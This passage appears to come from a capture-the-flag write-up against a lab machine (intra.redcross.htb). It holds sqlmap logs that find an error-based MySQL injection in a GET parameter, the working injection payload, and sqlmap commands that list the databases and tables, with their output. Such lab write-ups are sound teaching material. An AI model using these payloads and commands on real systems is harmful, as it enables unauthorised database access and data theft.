 ```
[13:06:01] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:06:20] [INFO] GET parameter 'o' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[13:06:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:06:20] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[13:06:20] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:06:42] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[14:12:39] [INFO] testing 'MySQL UNION query (63) - 21 to 40 columns'
[14:13:03] [INFO] testing 'MySQL UNION query (63) - 41 to 60 columns'
[14:13:28] [INFO] testing 'MySQL UNION query (63) - 61 to 80 columns'
[14:13:53] [INFO] testing 'MySQL UNION query (63) - 81 to 100 columns'
[14:14:19] [WARNING] parameter length constraining mechanism detected (e.g. Suhosin patch). Potential problems in enumeration phase can be expected
GET parameter 'o' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 469 HTTP(s) requests:
---
Parameter: o (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: o=2') AND (SELECT 6000 FROM(SELECT COUNT(*),CONCAT(0x71717a7671,(SELECT (ELT(6000=6000,1))),0x716a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- scxH&page=app
---
[14:33:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0
[14:33:52] [INFO] fetched data logged to text files under '/root/.sqlmap/output/intra.redcross.htb'

[*] shutting down at 14:33:52
```

Listing databases: `sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -T users --dbs`

```
[14:38:26] [INFO] used SQL query returns 2 entries
[14:38:27] [INFO] retrieved: information_schema
[14:38:28] [INFO] retrieved: redcross
available databases [2]:
[*] information_schema
[*] redcross
```

Listing tables from `redcross` DB: `sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -D redcross --tables`

```
[14:38:41] [INFO] retrieved: messages
[14:38:42] [INFO] retrieved: requests
[14:38:44] [INFO] retrieved: users
Database: redcross
[3 tables]
+----------+
| messages |
| requests |
| users    |
+----------+
```
